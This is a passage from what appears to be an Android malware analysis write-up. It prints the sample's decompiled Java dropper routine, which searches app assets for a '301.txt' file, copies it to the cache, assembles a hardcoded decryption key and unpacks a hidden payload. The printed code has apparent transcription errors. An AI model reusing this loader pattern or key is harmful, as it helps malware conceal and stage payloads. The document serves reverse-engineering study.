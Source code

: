 A lot of interesting things happen in the called function, but first let's deobfusicate the strings.

```java
public static void a(Context context, String str) {
    try {
        try { 
            Method method = context.getClass().getMethod("getAssets"), new Class[0]); 
            for (String str2 : ((Resources) context.getClass().getMethod("getResources"), new Class[0]).invoke(context, new Object[0])).getAssets().list(str)) { 
                try {
                    if (str2.endsWith("301.txt")) {
                        StringBuffer stringBuffer = new StringBuffer();
                        stringBuffer.append("ma1");
                        stringBuffer.append("7FEC");
                        InputStream open = ((AssetManager) method.invoke(context, new Object[0])).open(f40a + str2);
                        File file = new File(context.getCacheDir(), c.a.u(3));
                        FileOutputStream fileOutputStream = new FileOutputStream(file);
                        byte[] bArr = new byte[1024];
                        while (true) {
                            int read = open.read(bArr);
                            if (-1 == read) {
                                break;
                            } else {
                                fileOutputStream.write(bArr, 0, read);
                            }
                        }
                        open.close();
                        fileOutputStream.flush();
                        fileOutputStream.close();
                        c.a.f1860a = new String(stringBuffer).concat("2_l").concat("Yuo").concat("NQ").concat("$_To").concat("T99u_e0kINhw_Bzy");
                        c.a.v(context, file.getPath(), c.a.f1860a, new File(context.getCacheDir(), c.a.u(2).concat(".temp")).getPath());
                    }
                    Log.e("fileName", str2);
                } catch (Exception e2) {
                    e2.printStackTrace();
                }
            }
        } catch (IllegalAccessException | InvocationTargetException e3) {
            e3.printStackTrace();
        }
    } catch (IOException | NoSuchMethodException unused) {
    }
}
```

- Basically, this function iterates through the resources on `io/m/l/l/` directory in the asset folder searching for a file that ends with `301.txt`. If the specified file exist, it opens the file `io/m/l/l/eibephonenumberse301.txt` and reads it's content. 
